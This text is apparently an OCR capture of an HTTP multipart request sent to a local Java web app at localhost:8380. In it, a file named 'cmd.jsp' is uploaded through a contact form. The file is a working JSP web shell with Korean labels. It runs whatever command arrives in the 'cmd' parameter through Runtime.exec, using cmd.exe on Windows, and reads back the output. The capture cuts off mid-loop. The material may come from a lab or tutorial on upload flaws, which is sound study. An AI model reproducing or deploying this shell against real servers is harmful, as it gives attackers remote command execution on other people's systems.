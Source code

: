 ```
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8380/main.action
Accept-Encoding: gzip, deflate, br
Cookie: JSESSIONID=AFB0B463650F0424AD04A78F8EEEA4A9
Connection: keep-alive

------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="name"

asdf
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="email"

asdf
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="subject"

asdf
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="message"

asdf
------WebKitFormBoundarydNmhuHKBYPqVrS4m
Content-Disposition: form-data; name="Upload"; filename="cmd.jsp"
Content-Type: application/octet-stream

<%@ page import="java.util.*,java.io.*" %>
    <%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8" %>
        <!DOCTYPE html>
        <html>

        <head>
            <meta charset="UTF-8">
            <title>Insert title here</title>
        </head>

        <body>
            <form method="GET" name="cmdForm" action="">
                <input type="text" name="cmd">
                <input type="submit" value="전송">
            </form>
            <pre>
<%
if (request.getParameter("cmd") != null)
{
	out.println("명령어 : " + request.getParameter("cmd") + "<br>");
	
	Process p;
	
    if ( System.getProperty("os.name").toLowerCase().indexOf("windows") != -1)
		p = Runtime.getRuntime().exec("cmd.exe /C " + request.getParameter("cmd"));
    
    else
		p = Runtime.getRuntime().exec(request.getParameter("cmd"));
	
	InputStreamReader in = new InputStreamReader(p.getInputStream(),"euc-kr");
	BufferedReader br = new BufferedReader(in);
	
	String disr = br.readLine();
	
	while ( disr != null )
```